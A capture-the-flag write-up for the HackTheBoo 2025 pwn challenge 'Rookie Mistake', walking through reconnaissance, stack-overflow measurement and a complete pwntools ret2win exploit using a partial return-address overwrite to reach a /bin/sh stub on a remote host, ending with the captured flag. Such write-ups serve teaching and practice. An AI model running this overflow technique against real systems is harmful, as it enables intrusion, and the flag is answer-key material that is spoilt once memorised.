 ```yaml
---
title: "HackTheBoo CTF 2025 | Pwn: Rookie Mistake [easy]"
date: 2025-10-27
summary: "HackTheBoo 2025 CTF Pwn — Rookie-Mistake"
description: "Abusing a padding-only overflow to pivot main's return address onto the hidden win stub and pop a remote shell for the flag."
tags:
  - HackTheBox
  - HackTheBoo 2025
  - Pwn
  - ret2win
  - x86_64
categories:
  - HackTheBoo 2025
  - Pwn
draft: false
---
```


Rook — the fearless, reckless hunter — has become trapped within the binary during his attempt to erase NEMEGHAST. To set him free, you must align the cores and unlock his path back to the light. Failing that… find another way. Bypass the mechanism. Break the cycle. objective: Ret2win but not in a function, but a certain address.

## Step 1: Explore the Challenge Files

Identify the provided artifacts and the binary format.

```
ls
file rookie_mistake
cat README.txt
```

Findings:

- Single ELF named `rookie_mistake`, plus a themed README.
- 64-bit dynamically linked binary, **no PIE**, **NX enabled**, **stack canary disabled**, CET (IBT/SHSTK) on.

## Step 2: Baseline Runtime Behavior

Observe how the binary interacts with stdin/stdout.

```
./rookie_mistake
```

Output snippet:

```
【Gℓιт¢н Vσι¢є】Яοοқ... Μу ɓєℓονєɗ нυηтєя.. Aℓιgη тнє ¢οяєѕ.. Eѕ¢αρє!
rook@ie:~$ 【Gℓιт¢н Vσι¢є】Шɨʟʟ ʏѳʋ ʍąŋąɠɛ ȶѳ ƈąʟʟ ȶнɛ ƈѳяɛ ąŋɗ ɛʂƈąքɛ?!
```

Program reads from stdin once; any crash exits back to shell. No evidence of menuing or length checks—likely a single overflow.

## Step 3: Static Recon

Use pwntools/objdump to enumerate symbols and key functions.

```
from pwn import *
elf = ELF('rookie_mistake')
print('main', hex(elf.symbols['main']))
for name in ('banner','check_core','overflow_core','fail','setup'):
    func = elf.functions[name]
    print(f"{name}@{hex(func.address)} size {func.size}")
```

Highlights:

- `main` zeroes a 32-byte local buffer, prints ASCII art, then calls `read(0, buf, 0x2e)`.
- `check_core`/`overflow_core` compare six global “core” slots against user input; failing invokes `fail` (prints scolding text).
- `0x401758` is a short stub that loads the string `/bin/sh` from `.rodata` and jumps to `system@plt`—classic `win` gadget.

`strings` confirms `/bin/sh` at `0x4030a7`.

## Step 4: Measure the Overflow

Inspect `main`’s prologue to confirm stack layout.

```
objdump -d rookie_mistake --start-address=0x40176b --stop-address=0x4017d6
```

Key instructions:

- `sub rsp, 0x20` → local buffer is 0x20 bytes.
- After the `read` call there is no stack canary; returning uses the saved `rbp`/`rip` at offsets `+0x20` and `+0x28`.

Therefore payload structure: `[32 bytes padding][overwrite saved RBP][new RIP]`.

## Step 5: Local Proof of Concept

Craft payload and run locally to ensure the jump hits `system`.

```
from pwn import *
payload = b'A'*0x20 + b'B'*8 + p64(0x401758)[:6]
proc = process('./rookie_mistake')
proc.send(payload + b'id\n')
print(proc.recvline())
```

Notes:

- CET rejects 8-byte gadgets lacking ENDBR64, so partial overwrite (`[:6]`) keeps high bytes intact and lands exactly on `0x401758` which begins with ENDBR.
- After ret, banner still prints due to buffered output; patience is required.

## Step 6: The Exploit


```
from pwn import *
import time

context.binary = ELF('./rookie_mistake')
context.log_level = 'info'

HOST = '164.92.240.36'
PORT = 30498
WIN_ADDR = 0x401758
OFFSET = 0x20

payload = b'A' * OFFSET
payload += b'B' * 8
payload += p64(WIN_ADDR)[:6]

CMD = b'cat flag.txt || cat /flag'


def main():
    io = remote(HOST, PORT)
    io.sendline(payload)
    io.sendline(CMD)

    data = b''
    deadline = time.time() + 120
    while time.time() < deadline:
        chunk = io.recv(timeout=5)
        if not chunk:
            continue
        data += chunk
        if b'HTB{' in data:
            break

    start = data.index(b'HTB{')
    end = data.index(b'}', start)
    flag = data[start:end+1]
    log.success(flag.decode())
    with open('flag.txt', 'wb') as f:
        f.write(flag + b"\n")
    io.close()


if __name__ == '__main__':
    main()

```



- CET’s SHSTK/IBT do not hinder us because the entire thing is legitimate compiled code.
- The slow, sleep-laden `printstr` routine means `recvrepeat`/timeouts must be generous.


Run the exploit 

```
python3 exploit.py
```


```
[*] Opening connection to 164.92.240.36 on port 30498: Done
[*] Received 4146 bytes
[+] HTB{r3t2c0re_3sc4p3_th3_b1n4ry_9944a468344bd702fa436e27b18b3dd7}
```

## Takeaways

- Non-PIE binary + absent canary reduces exploit to straightforward ret2win despite CET being enabled.
- Partial-pointer overwrites remain handy for CET-hardened binaries where high bytes must remain canonical.
